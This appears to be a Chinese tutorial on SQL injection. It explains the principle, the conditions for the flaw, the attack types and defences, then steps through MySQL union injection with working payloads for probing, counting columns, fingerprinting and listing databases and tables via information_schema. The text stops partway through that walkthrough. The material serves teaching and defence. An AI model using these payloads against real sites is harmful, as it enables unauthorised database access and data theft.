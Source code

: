 ## 一、sql注入原理：
攻击者构造的特殊SQL语句的内容传到web应用，没有经过过滤或者严格的过滤，被带入到了数据库中进行执行，导致获取或者修改数据库中的数据。</br>
## 二、sql注入漏洞关键条件：
（1）用户能控制输入内容；</br>
（2）web应用没有严格过滤输入的内容，将其带入到数据库执行</br>
## 三、sql注入的分类：
（1）按照数据库分类：MySQL数据库注入、sqlserver数据库注入、access数据库注入、Oracle数据库注入、nosql注入;</br>
（2）按照语句划分：select，update，insert，delete，limit之后的注入，order by之后的注入；</br>
（3）按照位置划分：get，post，http header(cookie,referrer,user-agent等)；</br>
（4）按照SQL注入点反馈类型分类：union类型，基于错误显示，布尔类型，基于时间，其他类型；</br>
（5）其他类型：base64注入，二次编码注入，宽字节注入，OOB-dns外带注入</br>
## 四、sql注入的防御方法：
（1）定制黑名单：将常用的SQL注入字符写入到黑名单中，然后通过程序对用户提交的POST、GET请求以及请求中的各个字段都进行过滤检查，筛选威胁字符。</br>
（2）限制查询长度：由于SQL注入过程中需要构造较长的SQL语句，因此，一些特定的程序可以使用限制用户提交的请求内容的长度来达到防御SQL注入的目的，但这种效果并不好。</br>
（3）限制查询类型：限制用户请求内容中每个字段的类型，并在用户提交请求的时候进行检查，凡不符合该类型的提交就认为是非法请求。</br>
（4）白名单法：该方法只对部分程序有效，对一些请求内容相对固定的程序，可以制定请求内容的白名单，如：某程序接受的请求只有数字，且数字为1至100，这样可以检查程序接受的请求内容是否匹配，如果不匹配，则认为是非法请求。</br>
（5）设置数据库权限：根据程序要求为特定的表设置特定的权限，如：某段程序对某表只需具备select权限即可，这样即使程序存在问题，恶意用户也无法对表进行update或insert等写入操作。</br>
（6）限制目录权限：WEB目录应至少遵循“可写目录不可执行，可执行目录不可写”的原则，在此基础上，对各目录进行必要的权限细化。</br>
## 五、重点谈一谈MySQL注入：
### 1、联合注入：
***（1）判断是否有注入及注入点的类型</br>***
···
是否有注入：加单引号，and 111=111，and ’1’=’1’，and 1=2，or 1=1，or 1=2</br>
注入点类型：字符型（’，”，’），”)，%’），数字型</br>
```
***（2）判断查询列数（order by）***
原理order by 是排序的语句：</br>
```SQL
select * from users order by id
select * from users order by id desc
select * from users order by 1
```
***（3）联合查询***
```
id=1’ union select 1,2,3--+
id=-1’ union select 1,2,3--+
```
***（4）获取基本信息***
```
version()  数据库版本
database()  当前网站使用的数据库
user()  当前网站使用的数据库账户
@@secure_file_priv         数据库的读写文件
@@datadir  数据库安装目录：phpstudy（c:\phpstudy\mysql;c:\phpstudy\www）、wamp（c:\wamp\mysql;c:\wamp\www）
```
***（5）获取数据库名***
information_schema数据库（schemata表、tables表、columns表）；
schemata表里面获取数据库名：
```
select schema_name from schemata;
id=1' union select 1,2,group_concat(schema_name) from information_schema.schemata
```
***（6）获取表名（tables表）***
```
select table_name from tables where table_schema='security';
select table_name from tables where table_schema=database();
```